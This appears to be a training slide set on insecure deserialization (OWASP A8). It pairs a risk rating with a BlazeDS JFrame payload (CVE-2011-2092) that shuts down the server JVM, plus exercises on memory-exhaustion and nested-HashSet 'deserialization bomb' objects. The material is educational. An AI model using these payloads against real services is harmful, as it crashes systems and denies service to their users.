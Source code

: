 
# Risk Rating

## Insecure Deserialization

| Exploitability                   | Prevalence                    | Detecability                   | Impact              | Risk                                                                                                   |
|:---------------------------------|:------------------------------|:-------------------------------|:--------------------|:-------------------------------------------------------------------------------------------------------|
| :small_orange_diamond: Difficult | :large_orange_diamond: Common | :large_orange_diamond: Average | :red_circle: Severe | [A8](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization) |
| ( **1**                          | + **2**                       | + **2** ) / 3                  | * **3**             | = **5.0**                                                                                              |

---

# [Attack Example (Adobe BlazeDS)](https://nvd.nist.gov/vuln/detail/CVE-2011-2092)

```java
[RemoteClass(alias="javax.swing.JFrame")]
public class JFrame {
   public var title:String = "Gotcha!";
   public var defaultCloseOperation:int = 3;
   public var visible:Boolean = true;
}
```

* Above payload creates a `JFrame` instance on the target server
* The `JFrame` object will have a `defaultCloseOperation` of value `3`
* This indicates that **the JVM should exit** when this window is closed

---

# Exercise 8.2

1. What happens when the `root` object would be deserialized?

```java
ArrayList<Object> root = new ArrayList<>(Integer.MAX_VALUE);
```

---

# Exercise 8.3

1. What happens when the `root` object would be deserialized?

```java
Set root = new HashSet();
Set s1 = root;
Set s2 = new HashSet();
for (int i = 0; i < 100; i++) {
  Set t1 = new HashSet();
  Set t2 = new HashSet();
  t1.add("foo");
  s1.add(t1);
  s1.add(t2);
  s2.add(t1);
  s2.add(t2);
  s1 = t1;
  s2 = t2;
}
```

---

[^1]: http://www.oracle.com/technetwork/java/serial-137074.html